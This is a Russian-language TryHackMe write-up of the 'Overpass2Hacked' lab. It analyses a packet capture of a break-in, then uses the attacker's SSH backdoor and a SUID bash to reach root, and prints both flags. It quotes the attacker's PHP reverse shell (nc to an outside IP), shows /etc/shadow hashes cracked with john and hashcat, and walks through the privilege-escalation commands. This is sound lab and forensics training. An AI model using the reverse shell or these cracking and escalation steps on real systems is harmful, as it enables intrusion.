








# TryHackMe - Lin Easy - Overpass2Hacked

📅 Дата: 2025-07-08  
🧠 Сложность: Easy  
💻 IP-адрес: 10.10.52.76  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Анализ pcap

Скачиваю файл, проверяю и запускаю wireshark
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ md5sum overpass2_1595383502269.pcapng
11c3b2e9221865580295bc662c35c6dc  overpass2_1595383502269.pcapng

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ wireshark overpass2_1595383502269.pcapng 
```

Ставлю фильтр `http` и смотрю `Endpoints` (ipv4) в `Statistics` 


История начинается с установления TCP


http история обращений `ip.src==192.168.170.145 && http` выглядит так


В форму загрузки файлов, загружается **payload.php**, содержащий **reverse  shell**  
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```


И после того, как атакующий посещает **/development/uploads/payload.php**, устанавливается связь и дальнейшее общение идет по **TCP**


Далее `Follow TCP Stream` предоставляет информацию о действиях злоумышленника после получения доступа к системе


Для повышения привилегий злоумышленник использует пароль `whenevernoteartinstant`

Для закрепления использует `https://github.com/NinjaJc01/ssh-backdoor`


john взломал 4 пароля, полученных злоумышленником из **/etc/shadow**
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ cat hash.txt          
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ john --wordlist=./fasttrack.txt hash.txt       
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)     
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland) 
```

---

## 🕵️ Анализ вредоносного кода

Используется hash
```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

Для нахождения **salt** вначале нахожу функцию, в которую передается такой параметр
```go
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}
```

А далее нахожу вызов этой функции и передачу данного параметра
```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

Для ответа на вопрос  
`What was the hash that the attacker used? - go back to the PCAP for this!`  
возвращаюсь в Wireshark и копирую передаваемый параметр  


Для взлома hash вначале определяю тип  
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ hashid "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed"
Analyzing '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed'
[+] SHA-512 
[+] Whirlpool 
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 
[+] Skein-512 
[+] Skein-1024(512)
```

Для **SHA-512** в **hashcat** нужно использовать **1700**  
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ hashcat -m 1700 -a 0 hash-attack.txt /media/sf_Exchange/Dictionaries/rockyou.txt 
hashcat (v6.2.6) starting
```

Но это не даст результат, т.к. нужно добавить **salt** и тогда использовать код **1710**  
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ echo "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" > hash-attack.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/files]
└─$ hashcat -m 1710 -a 0 hash-attack.txt --show                                     
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```


## 📂 Получение доступа

Атакующие изменили главную страницу и оставили сообщение  
`H4ck3d by CooctusClan`

Для получения доступа воспользуюсь оставленным бэкдором на порту 2222  


nmap показывает, что порт открыт  
```
PORT     STATE SERVICE VERSION                                                                                     
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 31.431 days (since Sat Jun  7 11:00:01 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Подключаюсь по ssh  
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/scans]
└─$ ssh james@10.10.52.76 -p 2222
Unable to negotiate with 10.10.52.76 port 2222: no matching host key type found. Their offer: ssh-rsa
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Easy - Overpass2Hacked/scans]
└─$ ssh james@10.10.52.76 -p 2222 -o HostKeyAlgorithms=+ssh-rsa
The authenticity of host '[10.10.52.76]:2222 ([10.10.52.76]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.52.76]:2222' (RSA) to the list of known hosts.
james@10.10.52.76's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```

Получаю пользовательский флаг
```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```


## ⚙️ Привилегии

Ищу векторы повышения привилегий
```
james@overpass-production:/home/james$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
sudo: 3 incorrect password attempts
llmes@overpass-production:/home/james$ find / -type f -perm -04000 -ls 2>/dev/nul
      499     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
      844    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
      497     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
      739     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
      880     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      703     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
      701     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
      719     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
      592     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
      446     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
      702     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
     1254    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     7178     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1258     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7392    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1072     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   262241     44 -rwsr-xr-x   1 root     root          43088 Jan  8  2020 /bin/mount
   262214     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   262281     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262265     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262299     28 -rwsr-xr-x   1 root     root          26696 Jan  8  2020 /bin/umount
   268869   1088 -rwsr-sr-x   1 root     root        1113504 Jul 22  2020 /home/james/.suid_bash
```

Повышаю привилегии
```
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
.suid_bash-4.4$ cd /root
.suid_bash: cd: /root: Permission denied
.suid_bash-4.4$ exit
exit
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cd /root
.suid_bash-4.4# pwd
/root
.suid_bash-4.4# ls -la
total 28
drwx------  4 root root 4096 Jul 22  2020 .
drwxr-xr-x 23 root root 4096 Aug 14  2020 ..
lrwxrwxrwx  1 root root    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 22  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 21  2020 .ssh
-rw-------  1 root root   38 Jul 22  2020 root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# 
```


## 🏁 Флаги

- User flag: thm{d119b4fa8c497ddb0525f7ad200e6567} 
- Root flag: thm{d53b2684f169360bb9606c333873144d} 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


